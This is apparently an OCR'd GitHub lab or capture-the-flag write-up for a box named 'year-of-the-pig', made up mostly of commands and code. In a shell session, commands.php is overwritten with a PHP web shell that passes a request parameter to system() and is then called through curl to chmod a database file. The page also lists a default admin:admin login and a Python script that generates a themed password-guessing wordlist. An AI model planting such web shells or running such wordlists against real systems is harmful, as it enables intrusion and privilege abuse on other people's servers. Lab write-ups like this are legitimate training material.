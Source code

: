 
arco@year-of-the-pig:/var/www/html/admin$ cp commands.php commands.bak
marco@year-of-the-pig:/var/www/html/admin$ nano commands.php


marco@year-of-the-pig:/var/www/html/admin$ cat commands.php
<?php
echo system($_REQUEST['cmd'];
?>


marco@year-of-the-pig:/var/www/html/admin$ curl localhost/admin/commands.php -d 'cmd=chmod 777 /var/www/admin.db'
marco@year-of-the-pig:/var/www/html/admin$ ls -la /var/www/admin.db
-rw------- 1 www-data www-data 24576 Sep 17 02:44 /var/www/admin.db




<img width="954" height="367" alt="image" src="https://github.com/user-attachments/assets/cb1381cb-3416-4029-ab2b-e1481ad4f5f7" />

<br>
<br>



<img width="934" height="233" alt="image" src="https://github.com/user-attachments/assets/5bef4268-f864-4012-b4cc-6b4a7410aa81" />

<img width="947" height="286" alt="image" src="https://github.com/user-attachments/assets/35820a65-b52d-4190-a672-f8a602249e62" />


<h3>/admin/resetpassword.php</h3>


<img width="1096" height="365" alt="image" src="https://github.com/user-attachments/assets/2e983075-3f19-49da-b79a-60e8c05014fc" />



<h3>/login.php & admin:admin</h3>

<img width="1094" height="227" alt="image" src="https://github.com/user-attachments/assets/1ca72c34-5803-42a5-8af8-61216b28b1ef" />

```bash
memorableWords = ['Italy', 'italy', 'Milan', 'milan', 'Savoia', 'savoia',
                  'Curtiss', 'curtiss', 'Curtis', 'curtis', 'planes', 'Planes',
                  'Plane', 'plane']
specialChars = ['!','@','#','$']
count = 0

for word in memorableWords:
    for specialChar in specialChars:
        while (count <= 99):
            if (count <= 9):
                count = '0' + str(count)
            else:
                count = str(count)
            print(word + count + specialChar)
            count = int(count)
            count += 1
        count = 0
```
